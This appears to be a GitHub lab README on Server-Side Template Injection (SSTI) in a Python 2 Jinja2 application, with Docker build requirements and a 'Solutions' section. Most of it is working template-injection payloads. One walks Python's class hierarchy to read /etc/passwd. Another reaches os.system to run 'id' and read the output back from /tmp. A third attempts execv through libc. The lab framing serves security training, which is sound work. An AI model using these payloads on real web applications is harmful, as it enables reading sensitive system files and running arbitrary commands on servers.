 


# Server-Side Template Injection (SSTI)

## Build instructions

Requirements:
 - Docker
 - Docker-compose

## Solutions

```
{{''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd","r").read() }}
```

```
[40]:  <type 'file'>
[59]: <class 'warnings.catch_warnings'>
WARNINGS.__init__.func_globals['linecache'].__dict__.values()[12] : <module 'os' from '/usr/lib/python2.7/os.pyc'>
```

Executing command and storing the result temporary in the temp folder:
```
{{ ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('id > /tmp/cmd') }}{{''.__class__.__mro__[2].__subclasses__()[40]("/tmp/cmd","r").read() }}
```


### Libc attempt

```
{{ self.__class__.__mro__[1].__subclasses__()[226]('libc-2.23.so').execv('/bin/touch','/tmp/1234') }}
```

# Reference: 
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
